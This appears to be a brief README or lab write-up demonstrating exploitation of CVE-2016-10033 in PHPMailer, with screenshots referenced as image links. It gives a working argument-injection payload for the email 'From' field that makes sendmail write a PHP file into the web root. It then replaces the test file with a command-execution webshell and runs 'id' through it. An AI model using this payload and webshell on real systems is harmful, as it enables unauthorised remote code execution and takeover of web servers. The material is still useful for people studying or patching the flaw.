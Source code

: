 This using CVE 2016-10033 PHPMailer

This website like that

![website](image.png)

POC 

In `From` field, input payload to create php file in web server when email sent ~~~~

payload: 
> "attacker\" -oQ/tmp/ -X/var/www/shell4.php root"@email  

on body mail, put it, lets try web server throw phpinfo, I can confirm this php file was created remotely:

```php 
<?php phpinfo(); ?>
```  

Successfuly, lets RCE this machine

![PHPinfor](image-1.png) 

so, i modified payload  to

```php
<?php system($_GET['c']);?>
```

Message successfully

Webshell

![rce-upload-shell](image-2.png)

?c=id

![command](image-3.png)

Exploit

![ex](image-4.png)



